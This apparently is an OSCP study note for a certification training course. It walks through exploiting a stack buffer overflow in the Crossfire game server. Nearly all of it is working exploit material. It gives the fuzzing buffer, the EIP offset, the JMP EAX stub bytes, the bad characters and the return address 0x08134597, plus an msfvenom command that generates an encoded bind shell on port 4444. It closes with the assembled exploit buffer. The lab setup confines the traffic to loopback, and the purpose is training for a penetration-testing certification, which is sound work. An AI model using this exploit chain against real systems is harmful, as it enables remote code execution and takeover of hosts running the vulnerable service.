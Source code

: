 ```yaml
---
title: "OSCP: Linux Buffer Overflow"
parent: OSCP
grand_parent: Certifications
nav_order: 2
---
```


# Linux Buffer Overflow (Crossfire)
Download a version of the vulnerable app Crossfire

### Setup safe environment: iptables only allow traffic from loopback interface=targetip
iptables –A, -p, -d, -j # Append, protocol, destination, jump
crossfire listens on port 13327
iptables -A INPUT -p tcp --destination-port 13327 \! -d 127.0.0.1 -j DROP
iptables -A INPUT -p tcp --destination-port 4444 \! -d 127.0.0.1 -j DROP

### 1. Run debugger and crash the app
Get POC code from exploit db
edb --run /usr/games/crossfire/bin/crossfire. In EDBG: Hit RUN twice
crash = “\x41” *4379
buffer = “\x11(setup sound “ + crash + “\x90\x00#”
python fuzz.py
2. Control EIP
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 4379
Swap into the crash var: python linux_buffer_overflow.py 
EIP has been overwritten with the hex characters… 46 36 70 46
These are unique 4 bytes in the buffer. Now find where they are in the buffer.
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 4379 -q 46367046
[*] Exact match at offset 4368
Replace “crash = "\x41" * 4368 + "B" * 4 + "C" * 7”: python EIP_BBBB.py


3. Make space for the shellcode  
Check for helpful registers: Follow in dump.
EAX points to buffer start “setup sound “ opstring (len 12). Want to avoid these bytes. 
ESP points to end of buffer “C * 7” (spare bytes). 
Add 12 bytes to EAX to align EAX with the A’s => JMP EAX we skip over “setup sound “
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > add eax,12 	83C00C add eax,byte +0xc
nasm > jmp eax 		FFE0 jmp eax
Add instructions together (JMP EAX + 12 bytes) = \x83\xc0\x0c\xff\xe0 to python. Looks like I didn’t test again here? Just note nasm output and move on?
4. Discover bad characters
All bad chars (except x00) contained in deault named script. Can use this for future.
python bad_chars.py
ID/remove bad chars in buffer. Right-click EAX. Follow in stack & dump. Stack looked better in EDBG. Scroll down dump until end of A’s. Then should see 01, 02, 03… etc until a failure. remove failure from bad_chars.py. Redo until ESP-error-free crash 
Removed: (\x00\x0a\x0d\x20)


5. Redirect execution flow - Find a return address
So, we know we want to reach the buffer pointed to by the ESP register.
EDBG: Plugins: Opcode Seacher: 
Once the application is in a crashed state use dropdown to search for:
ESP -> EIP: 
Choose 1st JMP ESP. Add address to python script at BBBB.
crash = "\x41" * 4368 + "\x97\x45\x13\x08" + "\x83\xc0\x0c\xff\xe0\x90\x90“
EDBG: Add breakpoint at 0x08134597 to execution flow. 
Right-click Go to Address 0x08134597. Double click on it to place breakpoint.
Restart EDBG. Send payload. Should pause at First stage payload.
Next instruction is JMP ESP. F8. We are redirected to ESP 83C00C 
As EAX register aligned by stage one, a JMP EAX takes us to a clean buffer of A’s
6. Make shellcode excluding bad characters
bind or reverse? why?
msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c –b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai
Resulting shell code is 105 bytes
7. Add shellcode into python script
shellcode = ("\xd9\... \x30")
ret="\x97\x45\x13\x08”
crash=shellcode + "\x41" * (4368 - 105) + ret + "\x83\xC0\x0C\xFF\xE0\x90\x90“
buffer = "\x11(setup sound " + crash + "\x90\x00#“
TURN OFF EDBG FOR EXPLOIT TO WORK: RUN CROSSFIRE: RUN EXPLOIT /usr/games/crossfire/bin/crossfire
python exploit.py
id; whoami
